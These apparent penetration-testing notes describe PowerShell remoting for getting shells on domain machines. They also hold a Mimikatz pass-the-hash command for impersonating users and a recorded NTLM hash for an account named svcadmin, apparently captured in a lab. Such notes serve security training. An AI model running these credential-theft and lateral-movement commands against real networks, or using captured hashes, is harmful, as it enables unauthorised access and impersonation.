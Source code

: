 Powershell remoting is of 2 types:
1. One-to-One: It is interactive , Stateful , Runs in a new process. PSSession methods can be used for it's implementation.
2. One-to-Many(Fan-out): Non-Interactive , Parallel command execution. Generally used when we have to execute something remotely on many computers simulaneously. Invoke-Command can be used for it's implementation.

=======================================================================================

If we have admin access on another computer in a domain, to get shell on that domain:
> Enter-PSSession -ComputerName <computer_name> 
It's like PSExec for Powershell Remoting

========================================================================================

To have a stateful(state can be saved) powershell remoting session on the remote system:
> $sess = New-PSSession -ComputerName <computer_name>

Now, whenever you want to get back to that session, just use:
> Enter-PSSession -Session $sess

It's like meterpreter session in metasploit-framework

========================================================================================

For One-to-Many powershell remoting, "Invoke-Command" is used:

To run a command on remote system:
> Invoke-Command -ComputerName <computer_name> -ScriptBlock {<command>}


Let's say (yoyo.ps1):
function hello {
Write-Output "hello from ninja"
}

To run a locally defined function:
> Invoke-Command -ComputerName <computer_name> -ScriptBlock ${function:<function_name>}

In case we want to run a powershell script on remote system:
> Invoke-Command -ComputerName <computer_name> -FilePath <path_to_script>

In case we have a list of computers where we want to execute the commands:
> Invoke-Command -ComputerName (Get-Content <path_to_computers_list>) 

If we have session objects for every session and we wanna execute commands on a session:
> Invoke-Command -Session $sess

=======================================================================================

+++++++++++++++++++
MIMIKATZ
+++++++++++++++++++

To impersonate other user after finding the user's NTLM hash using "Invoke-Mimikatz -DumpCredentials"
> Invoke-Mimikatz -Command '"sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<ntlm_hash> /run:<executable_file>"'


NTLM hash of svcadmin obtained from mgmt computer:
b38ff50264b74508085d82c69794a4d8


